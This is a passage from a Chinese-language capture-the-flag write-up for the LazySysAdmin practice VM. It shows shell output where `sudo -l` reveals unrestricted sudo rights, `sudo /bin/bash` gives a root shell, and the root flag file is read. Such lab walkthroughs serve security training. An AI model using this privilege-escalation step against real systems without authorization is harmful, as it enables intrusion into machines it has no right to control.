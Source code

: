   ```
  34871 -rw-r--r-- 1 togie togie 3.6K Aug 14  2017 .bashrc
  37880 drwx------ 2 togie togie 4.0K Aug 14  2017 .cache
  37872 -rw-r--r-- 1 togie togie  675 Aug 14  2017 .profile
  togie@LazySysAdmin:~$ sudo -l
  [sudo] password for togie: 
  Matching Defaults entries for togie on LazySysAdmin:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
  
  User togie may run the following commands on LazySysAdmin:
      (ALL : ALL) ALL
  ```

## 提权

- 直接使用`sudo bin/bash`即可完成操作.-->读取`root`用户flag

- ```shell
  togie@LazySysAdmin:~$ sudo /bin/bash
  root@LazySysAdmin:~# ls -lhai
  total 24K
    720 drwxr-xr-x 3 togie togie 4.0K Aug 15  2017 .
    758 drwxr-xr-x 3 root  root  4.0K Aug 14  2017 ..
  34865 -rw-r--r-- 1 togie togie  220 Aug 14  2017 .bash_logout
  34871 -rw-r--r-- 1 togie togie 3.6K Aug 14  2017 .bashrc
  37880 drwx------ 2 togie togie 4.0K Aug 14  2017 .cache
  37872 -rw-r--r-- 1 togie togie  675 Aug 14  2017 .profile
  root@LazySysAdmin:~# cd /root/
  root@LazySysAdmin:/root# ls -lhai
  total 28K
   1103 drwx------  3 root root 4.0K Aug 15  2017 .
      2 drwxr-xr-x 22 root root 4.0K Aug 21  2017 ..
  37887 -rw-------  1 root root 1000 Aug 21  2017 .bash_history
   1104 -rw-r--r--  1 root root 3.1K Feb 20  2014 .bashrc
  40640 drwx------  2 root root 4.0K Aug 14  2017 .cache
   1105 -rw-r--r--  1 root root  140 Feb 20  2014 .profile
    603 -rw-r--r--  1 root root  347 Aug 21  2017 proof.txt
  root@LazySysAdmin:/root# cat proof.txt 
  WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
  
  
  Well done :)
  
  Hope you learn't a few things along the way.
  
  Regards,
  
  Togie Mcdogie
  
  
  
  
  Enjoy some random strings
  
  WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
  2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
  pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
  bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
  root@LazySysAdmin:/root# ip a 
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
      link/ether 00:0c:29:03:a2:ff brd ff:ff:ff:ff:ff:ff